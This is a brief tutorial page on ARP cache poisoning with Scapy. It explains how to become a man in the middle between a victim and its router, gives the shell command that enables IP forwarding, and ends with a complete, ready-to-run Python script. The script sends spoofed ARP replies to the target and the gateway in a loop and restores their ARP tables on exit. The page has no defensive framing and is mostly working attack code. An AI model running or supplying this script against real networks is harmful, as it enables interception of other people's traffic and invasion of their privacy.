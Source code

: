 ```yaml
---
title: "Arp cache poisoning"
date: 2019-01-06
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


With Scapy you can easily send crafted ARP reply packets. The idea is to constantly send the victim ARP replies telling it we are the router.  
We do the same for the router, we tell it we are the victim machine. After we become the man in the middle we can intercept & inspect all data...

To allow forwarding of packets between the victim and the gateway we need to enable ip_forward:

```mk
echo '1' > /proc/sys/net/ipv4/ip_forward
```

The function get_mac sends arp request message ("Who has") to the broadcast address, so all clients on the LAN receive it,  
we will get the correct mac address back from the target_ip.  

Now that we have the correct mac address from the target we can start sending spoofed reply packets with spoof function ('target_ip' <b>is at</b> 'attacker mac address')   

![arp reply 1](/img/1at.png)

and

![arp reply 2](/img/18at.png)

The full code:  

```python
#!/usr/bin/env python
import scapy.all as scapy
import time
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest="target",
                        help="Target IP")
    parser.add_argument("-g", "--gateway", dest="gateway",
                        help="Gateway IP")
    options = parser.parse_args()
    return options

# Get target mac address using ip address
def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1,
                              verbose=False)[0]
    return answered_list[0][1].hwsrc

# Change mac address in arp table
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,
                       psrc=spoof_ip)
    scapy.send(packet, verbose=False)

# Restore mac address in arp table
def restore(dest_ip, source_ip):
    dest_mac = get_mac(dest_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op=2, pdst=dest_ip, hwdst=dest_mac,
                       psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

options = get_arguments()
sent_packets_count = 0
try:
    while True:
        spoof(options.target, options.gateway)
        spoof(options.gateway, options.target)
        sent_packets_count = sent_packets_count + 2
        print("\r[+] ARP spoofing started - packets sent: " + str(sent_packets_count))
        time.sleep(2)
except KeyboardInterrupt:
    print("\nCTRL+C pressed .... Reseting ARP tables. Please wait")
    restore(options.target, options.gateway)
    restore(options.gateway, options.target)
    print("\nARP table restored. Quiting")

```
